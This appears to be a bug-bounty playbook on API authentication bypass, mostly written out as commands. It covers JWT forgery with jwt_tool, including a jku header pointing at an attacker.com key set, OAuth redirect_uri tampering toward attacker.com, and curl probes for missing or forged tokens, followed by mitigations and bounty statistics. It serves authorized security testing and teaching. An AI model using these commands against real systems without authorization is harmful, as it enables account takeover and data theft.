

# API Authentication Bypass

## When to Use
- When testing APIs for authentication weaknesses
- When JWT tokens are used for session management
- When OAuth2/OpenID Connect flows are implemented
- When API keys are used for authentication/authorization
- When testing for broken authentication patterns


## Prerequisites
- Authorized scope and target URLs from bug bounty program
- Burp Suite Professional (or Community) configured with browser proxy
- Familiarity with OWASP Top 10 and common web vulnerability classes
- SecLists wordlists for fuzzing and enumeration

## Workflow

### Phase 1: Identify Authentication Mechanism

```bash
# Determine what auth mechanism the API uses:
# 1. JWT tokens (Authorization: Bearer eyJ...)
# 2. API keys (X-API-Key: xxx, ?api_key=xxx)
# 3. OAuth2 tokens
# 4. Session cookies
# 5. Basic auth (Authorization: Basic base64)
# 6. HMAC signatures

# Inspect headers and responses
curl -v https://api.target.com/v1/me 2>&1 | grep -i "auth\|cookie\|token\|key"
```

### Phase 2: JWT Token Attacks

```bash
# Decode JWT without verification
echo "eyJ0eXAi..." | cut -d. -f2 | base64 -d 2>/dev/null | jq .

# jwt_tool — comprehensive JWT testing
pip install jwt_tool

# Attack 1: Algorithm confusion (alg: none)
python3 jwt_tool.py <TOKEN> -X a
# Strips signature, sets algorithm to "none"

# Attack 2: HMAC/RSA confusion (CVE-2016-10555)
# If server uses RS256, try HS256 with the public key as secret
python3 jwt_tool.py <TOKEN> -X k -pk public_key.pem

# Attack 3: Brute-force weak secret
python3 jwt_tool.py <TOKEN> -C -d /usr/share/wordlists/rockyou.txt

# Attack 4: JWK header injection
python3 jwt_tool.py <TOKEN> -X i

# Attack 5: Modify claims
python3 jwt_tool.py <TOKEN> -T
# Change "role": "user" → "role": "admin"
# Change "sub": "1337" → "sub": "1" (admin user)
# Change "exp" to far future

# Attack 6: kid parameter injection
# If kid points to a file path:
python3 jwt_tool.py <TOKEN> -I -hc kid -hv "../../dev/null" -S hs256 -p ""
# Signs with empty string (content of /dev/null)

# Attack 7: jku/x5u header manipulation
# Point to attacker-controlled JWKS endpoint
python3 jwt_tool.py <TOKEN> -X s -ju "https://attacker.com/.well-known/jwks.json"
```

### Phase 3: OAuth2 & OpenID Connect Attacks

```bash
# Attack 1: Redirect URI manipulation
# Original: /authorize?redirect_uri=https://app.com/callback
# Tamper:   /authorize?redirect_uri=https://attacker.com/steal
# Bypass:   /authorize?redirect_uri=https://app.com.attacker.com/
# Bypass:   /authorize?redirect_uri=https://app.com/callback/../../../attacker

# Attack 2: State parameter missing/weak
# If no state parameter → CSRF attack on OAuth flow
# If predictable state → bypass CSRF protection

# Attack 3: Authorization code reuse
# Use the same auth code twice — if it works, vulnerable

# Attack 4: Scope escalation
/authorize?scope=read → /authorize?scope=read+write+admin

# Attack 5: PKCE bypass (for mobile/SPA apps)
# Remove code_verifier from token request
# Try without code_challenge in authorization request

# Attack 6: Token leakage via Referer
# Check if access tokens appear in Referer headers to third-party resources

# Attack 7: Client credential stuffing
# Try common client_secret values for public clients
```

### Phase 4: API Key Testing

```bash
# Check for API key leakage:
# 1. Client-side JavaScript
grep -r "api_key\|apiKey\|api-key\|x-api-key" *.js

# 2. GitHub/public repos
# Search GitHub for: "target.com" AND ("api_key" OR "apiKey" OR "secret")

# 3. Mobile app decompilation
apktool d target.apk
grep -r "api" target/smali/ target/res/

# Test API key permissions:
# Can you access admin endpoints?
curl -H "X-API-Key: $APIKEY" https://api.target.com/admin/users

# Can you access other tenants' data?
curl -H "X-API-Key: $APIKEY" https://api.target.com/tenants/OTHER_ID/data

# Is rate limiting per-key or global?
for i in $(seq 1 1000); do
  curl -s -o /dev/null -w "%{http_code}\n" \
    -H "X-API-Key: $APIKEY" https://api.target.com/endpoint
done | sort | uniq -c
```

### Phase 5: Broken Authentication Patterns

```bash
# Test: Remove auth header entirely
curl https://api.target.com/v1/admin/users  # No auth header

# Test: Empty auth values
curl -H "Authorization: " https://api.target.com/v1/me
curl -H "Authorization: Bearer " https://api.target.com/v1/me
curl -H "Authorization: Bearer null" https://api.target.com/v1/me

# Test: Old/revoked tokens still work
# 1. Get a token, 2. Logout, 3. Use the old token

# Test: Token not validated
curl -H "Authorization: Bearer ANYTHING_HERE" https://api.target.com/v1/me

# Test: Password reset token reuse
# Use a password reset token → change password → use same token again

# Test: Account lockout bypass
# Rotate between different users or use different IP addresses

# Test: Registration flaws
# Register with admin@target.com (admin email)
# Register with existing username in different case
```


### 🏆 Elite Chaining Strategy (Top 1% Hunter Methodology)

> **Core Principle**: A single finding is a $500 report. A chained exploit is a $50,000 report.
> The top 1% of hunters spend 40+ hours on a single target, understanding it better than
> the developers who built it. They automate discovery, not exploitation.

**Chaining Decision Tree:**


**Common High-Payout Chains:**
| Chain Pattern | Typical Bounty | Example |
|--|--|--|
| SSRF → Cloud Metadata → IAM Keys | $15,000-$50,000 | Webhook URL → AWS creds → S3 data |
| Open Redirect → OAuth Token Theft | $5,000-$15,000 | Login redirect → steal auth code |
| IDOR + GraphQL Introspection | $3,000-$10,000 | Enumerate users → access any account |
| Race Condition → Financial Impact | $10,000-$30,000 | Duplicate gift cards → unlimited funds |
| XSS → ATO via Cookie Theft | $2,000-$8,000 | Stored XSS on admin page → session hijack |
| Info Disclosure → API Key Reuse | $5,000-$20,000 | JS file → hardcoded API key → admin access |

**The "Architect" vs "Scanner" Mindset:**
- ❌ **Scanner Mindset**: Run nuclei on 10,000 subdomains, submit the first hit → duplicates
- ✅ **Architect Mindset**: Spend 2 weeks mapping ONE application's business logic, RBAC model, 
  and integration seams → find what no scanner ever will

## 🔵 Blue Team Detection
- **JWT validation**: Always verify signature server-side, reject `alg: none`
- **Token expiration**: Short-lived tokens (15 min access, 7 day refresh)
- **Key rotation**: Rotate JWT signing keys regularly
- **OAuth**: Validate redirect_uri against strict whitelist (exact match)
- **Rate limiting**: Per-user/per-IP rate limits on auth endpoints
- **Token revocation**: Maintain blacklist for revoked tokens

## Key Concepts
| Concept | Description |
|---------|-------------|
| JWT | JSON Web Token — self-contained authentication token |
| Algorithm confusion | Switching JWT algorithm to bypass signature verification |
| OAuth2 | Authorization framework for delegated access |
| PKCE | Proof Key for Code Exchange — prevents auth code interception |
| BOLA | Broken Object Level Authorization — OWASP API #1 |
| Token forgery | Creating valid-looking tokens without the signing key |

## Output Format
```
API Authentication Bypass Report
=================================
Title: JWT Algorithm Confusion Leading to Admin Access
Severity: CRITICAL (CVSS 9.8)
Endpoint: Any authenticated endpoint
Auth Mechanism: JWT (RS256)

Steps to Reproduce:
1. Obtain public key from /.well-known/jwks.json
2. Create JWT with header: {"alg":"HS256","typ":"JWT"}
3. Set payload: {"sub":"1","role":"admin","exp":9999999999}
4. Sign with HS256 using the RSA public key as the HMAC secret
5. Use forged token → full admin access

Impact:
- Complete authentication bypass
- Any user can forge admin tokens
- Full API access without valid credentials
```


### 📝 Elite Report Writing (Top 1% Standard)

> **"The difference between a $500 and $50,000 report is the quality of the writeup."**
> — Vickie Li, Bug Bounty Bootcamp

**Title Format**: `[VulnType] in [Component] Allows [BusinessImpact]`
- ❌ "XSS Found" → This tells the triager nothing
- ✅ "Stored XSS in /admin/comments Allows Session Hijacking of All Moderators"

**Report Structure (HackerOne-Optimized):**
1. **Summary** (2-4 sentences — triager reads only this first): What broke, how, worst-case.
2. **CVSS 4.0 Vector** — Must be defensible; wrong CVSS destroys credibility.
3. **Attack Scenario** — 3-5 sentence narrative from attacker's perspective.
4. **Impact** — MUST include at least one real number: "Affects 4.2M users" not "affects many users".
5. **Steps to Reproduce** — Deterministic. A junior dev who has never seen this bug reproduces it exactly.
6. **PoC** — Copy-paste runnable. No placeholders. Match the exact HTTP method.
7. **Remediation** — Don't say "sanitize input." Give the exact code fix, before/after.
8. **CWE + References** — SSRF→CWE-918, IDOR→CWE-639, SQLi→CWE-89, XSS→CWE-79.

**Pre-Report Verification (5 Checks):**
1. 🔍 **Hallucination Detector** — Verify endpoints, CVEs, and code paths are real
2. 🤖 **AI Writing Pattern Check** — Remove "Certainly!", "It's worth noting", generic phrasing
3. 🧪 **PoC Reproducibility** — Payload syntax valid for context? Prerequisites stated?
4. 📋 **Duplicate Detection** — Is this a scanner-generic finding? Known public disclosure?
5. 📈 **Impact Plausibility** — Severity matches technical capability? No inflation?


## 💰 Real-World Disclosed Bounties (JWT)

| Company | Bounty | Researcher | Technique | Year |
|---------|--------|-----------|-----------|------|
| **HackerOne (Jira integration)** | $2,500 | updatelap | JWT leak in Jira plugin → unauthorized access to Jira data | 2024 |
| **HackerOne program** | (Duplicate) | (Undisclosed) | JWT tokens in URLs + plaintext creds in JWT payloads → full ATO | 2023 |

**Key Lesson**: JWT-in-URL is a classic finding — tokens leak via Referer headers, server logs,
and browser history. The duplicate status on the second report proves: **submit fast, submit first**.

**Real attack flow that gets paid:**
1. Intercept JWT from target app
2. Decode payload at jwt.io — check for sensitive data in claims
3. Test `alg: none` → does the server accept unsigned tokens?
4. Test RS256→HS256 confusion → sign with public key as HMAC secret
5. Modify claims (role: admin, user_id: victim) → test authorization bypass

## 💰 Industry Bounty Payout Statistics (2024-2025)

| Company/Platform | Total Paid | Highest Single | Year |
|-----------------|------------|---------------|------|
| **Google VRP** | $17.1M | $250,000 (CVE-2025-4609 Chrome sandbox escape) | 2025 |
| **Microsoft** | $16.6M | (Not disclosed) | 2024 |
| **Google VRP** | $11.8M | $100,115 (Chrome MiraclePtr Bypass) | 2024 |
| **HackerOne (all programs)** | $81M | $100,050 (crypto firm) | 2025 |
| **Meta/Facebook** | $2.3M | up to $300K (mobile code execution) | 2024 |
| **Crypto.com (HackerOne)** | $2M program | $2M max | 2024 |
| **1Password (Bugcrowd)** | $1M max | $1M (highest Bugcrowd ever) | 2024 |
| **Samsung** | $1M max | $1M (critical mobile flaws) | 2025 |

**Key Takeaway**: Google alone paid $17.1M in 2025 — a 40% increase YoY. Microsoft paid $16.6M.
The industry is paying more, not less. Average critical bounty on HackerOne: $3,700 (2023).

## 🔴 Red Team
- Extract assets and enumerate endpoints.
- Execute initial payloads leveraging documented vulnerabilities.

## References
- OWASP API Security: [API2:2023 Broken Authentication](https://owasp.org/API-Security/)
- JWT.io: [JWT Introduction](https://jwt.io/introduction)
- PortSwigger: [JWT Attacks](https://portswigger.net/web-security/jwt)
- PayloadAllTheThings: [JWT Attacks](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/JSON%20Web%20Token)
